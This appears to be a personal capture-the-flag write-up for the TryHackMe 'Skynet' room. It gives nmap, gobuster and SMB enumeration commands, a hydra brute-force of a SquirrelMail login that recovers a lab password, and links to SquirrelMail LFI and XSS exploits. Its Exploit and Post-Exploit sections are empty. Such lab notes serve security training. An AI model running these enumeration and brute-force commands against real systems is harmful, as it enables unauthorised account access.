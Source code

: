 # Skynet

https://tryhackme.com/room/skynet

## Scanning/Enumeration

```sh
nmap -v -T4 -sC -sV $TARGET_IP -Pn -oN nmap.txt

# 22  ssh;   OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
# 80  http;  Apache httpd 2.4.18
# 110 pop3;  Dovecot pop3d
# 143 imap;  Dovecot imapd
# 445 Samba; smbd 3.x-4.x => guest

gobuster dir -u $TARGET_IP -w /usr/share/wordlists/dirb/common.txt > gobuster.txt
```

went to `http://$TARGET_IP:80/index.html`; POST form unsure if useful

went to `http://$TARGET_IP:80/squirrelmail/src/login.php`; login, also PHP, squirrelmail 1.4.23

```sh
# checking out samba

# https://null-byte.wonderhowto.com/how-to/enumerate-smb-with-enum4linux-smbclient-0198049/

/opt/enum4linux.pl -U $TARGET_IP
# user: milesdyson

smbclient -L $TARGET_IP -U '' -N
smbclient //$TARGET_IP/anonymous -U '' -N

# smb
get attention.txt
cd logs
get logs.txt
get log2.txt
get log3.txt

# log1.txt -> passwords...I think
```

```sh
# brute force milesdyson with password list

hydra $TARGET_IP -V http-form-post \
  "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=16&just_logged_in=1:F=Unknown user or password incorrect." \
  -l milesdyson \
  -P log1.txt

# creds milesdyson:cyborg007haloterminator
```

## Vulnerabilities

- [Squirrelmail 1.4.x - 'Redirect.php' Local File Inclusion](https://www.exploit-db.com/exploits/27948)
- [SquirrelMail 1.4.x - Folder Name Cross-Site Scripting](https://www.exploit-db.com/exploits/24068)

## Exploit

## Post-Exploit

